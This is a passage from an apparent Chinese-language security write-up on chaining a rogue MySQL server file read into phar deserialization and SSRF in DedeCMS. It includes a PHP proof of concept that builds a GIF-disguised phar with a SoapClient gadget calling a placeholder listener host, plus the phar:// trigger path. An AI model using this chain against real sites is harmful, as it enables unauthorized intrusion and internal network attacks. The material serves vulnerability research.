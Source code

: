 ![image.png-356.7kB][32]

然后就会触发任意文件读取，当然，如果读取文件为phar，则会触发反序列化。

我们需要先生成相应的phar
```
<?php

class Control
{
    var $tpl;
    // $a = new SoapClient(null,array('uri'=>'http://example.com:5555', 'location'=>'http://example.com:5555/aaa'));
    public $dsql;

    function __construct(){
		$this->dsql = new SoapClient(null,array('uri'=>'http://xxxx:5555', 'location'=>'http://xxxx:5555/aaa'));
	}

    function __destruct() {
        unset($this->tpl);
        $this->dsql->Close(TRUE);
    }
}

@unlink("dedecms.phar");
$phar = new Phar("dedecms.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
$o = new Control();
$phar->setMetadata($o); //将自定义meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

?>
```

然后我们可以直接通过前台上传头像来传文件，或者直接后台也有文件上传接口，然后将rogue mysql server来读取这个文件

```
phar://./dedecms.phar/test.txt
```

监听5555可以收到
![image.png-38.9kB][33]

ssrf进一步可以攻击redis等拓展攻击面，就不多说了。



## 部分CMS测试结果


[1]: http://static.zybuluo.com/LoRexxar/3t0iv2wtgra8pjxb3hlgv4ao/image.png
[2]: http://static.zybuluo.com/LoRexxar/n0rx8iobd8fxtx5dunos7km3/image.png
[3]: http://static.zybuluo.com/LoRexxar/4x1yyuqbcnugcbqvzofcs3pp/OXDM5E5$ST51%5B$0B%60@BBG~S.png
[4]: http://static.zybuluo.com/LoRexxar/eqng4m7z35a0b7qclj1jmg21/image.png
[5]: http://static.zybuluo.com/LoRexxar/7yori2fkfjl9dlmgtussxdd4/image.png
[6]: http://static.zybuluo.com/LoRexxar/m6gjcjz5w63tnh79jjl2id7k/image.png
[7]: http://static.zybuluo.com/LoRexxar/bl2bviwpwbj3xbkd9ehp258g/image.png
[8]: http://static.zybuluo.com/LoRexxar/7sx4ebpx0xtchs4lj0qvo09k/image.png
[9]: http://static.zybuluo.com/LoRexxar/tobzz9kf0ikfp3h5jqi07m4i/image.png
[10]: http://static.zybuluo.com/LoRexxar/b4xa1b2s05wue6o04k7i1wfw/image.png
[11]: http://static.zybuluo.com/LoRexxar/ock8gpk4wjufrzu434o4sh2e/image.png
[12]: http://static.zybuluo.com/LoRexxar/qwoi5pnwgiw1lmdcx5e7836b/image.png
[13]: http://static.zybuluo.com/LoRexxar/ub5d1ylbd28m9o8zalt4cnto/image.png
[14]: http://static.zybuluo.com/LoRexxar/dfs1q3dm1i6r10mjywgpp819/image.png
[15]: http://static.zybuluo.com/LoRexxar/mrqd72185373870f6wrdas8a/image.png
[16]: http://static.zybuluo.com/LoRexxar/y0x18uc96fwpov4bqn0qhhqj/image.png
[17]: http://static.zybuluo.com/LoRexxar/lwmbbklsfgdti60e8qyjqtw7/image.png
[18]: http://static.zybuluo.com/LoRexxar/72iqa6e7i3928wckfuacxiny/image.png
[19]: http://static.zybuluo.com/LoRexxar/ijivo1toa7afcm4gug7tjzk5/image.png
[20]: http://static.zybuluo.com/LoRexxar/0adbu75qrcuv8caau262m34i/image.png
[21]: http://static.zybuluo.com/LoRexxar/6orndbdfrf1bqysouez1uauj/image.png
[22]: http://static.zybuluo.com/LoRexxar/ciy78f57vftzichc3xg82qgd/image.png
[23]: http://static.zybuluo.com/LoRexxar/ngn1u8fu15qz5d9830lrcbhn/image.png
[24]: http://static.zybuluo.com/LoRexxar/xd6jvuhaofstoduthnb15a1w/image.png
[25]: http://static.zybuluo.com/LoRexxar/vpa6tokfa26dng7eqr8bsubc/image.png
[26]: http://static.zybuluo.com/LoRexxar/4cief0ku1991kkpavlda1lm6/image.png
[27]: http://static.zybuluo.com/LoRexxar/1dl9y4ioznpis2z2xi5ixxdd/image.png
[28]: http://static.zybuluo.com/LoRexxar/j27yhc2er961j4gqttmhwutu/image.png
[29]: http://static.zybuluo.com/LoRexxar/4dr8vlhpn5lnn8ktq1jbn2ao/image.png
[30]: http://static.zybuluo.com/LoRexxar/twls59xuylfk78j4ikrk3eii/image.png
[31]: http://static.zybuluo.com/LoRexxar/hwg8ahoh48odump72h6tf3c1/image.png
[32]: http://static.zybuluo.com/LoRexxar/4ze2by2xa8jwgbnvpquoxxt6/image.png
[33]: http://static.zybuluo.com/LoRexxar/ccwgrjox5x7nxklrtnaxaemk/image.png
[34]: http://static.zybuluo.com/LoRexxar/g5mmomxuunolwnwd69vcf567/image.png
[35]: http://static.zybuluo.com/LoRexxar/i9m3hv9246ziexne1c2d7iik/image.png
[36]: http://static.zybuluo.com/LoRexxar/notx2emuvmf7y0nd7w84sj14/image.png
[37]: http://static.zybuluo.com/LoRexxar/qe1q1zcew7fxp32gtb4ub0jh/image.png
[38]: http://static.zybuluo.com/LoRexxar/otdllmlrbgd0tygavkolgnlb/image.png
[39]: http://static.zybuluo.com/LoRexxar/4yfa4fir4mp1np0jc25gffnw/image.png
[40]: http://static.zybuluo.com/LoRexxar/g7z10bjdd0dphkwuv4k17up7/image.png
[41]: http://static.zybuluo.com/LoRexxar/w9fokrfdntuwsgf9kx9ypcqa/image.png
[42]: http://static.zybuluo.com/LoRexxar/4rfb6q9bzgunh41snsx2jqhp/image.png
[43]: http://static.zybuluo.com/LoRexxar/1xt3jcs0jaiekw13t78nxymi/image.png
[44]: http://static.zybuluo.com/LoRexxar/7yfr1ef8rzjggwaju4xyn9ld/image.png
[45]: http://static.zybuluo.com/LoRexxar/8vwz2j222q7nh07r71m12cb4/image.png
[46]: http://static.zybuluo.com/LoRexxar/7jbzoxpoon4bq9cbldg2zv8f/image.png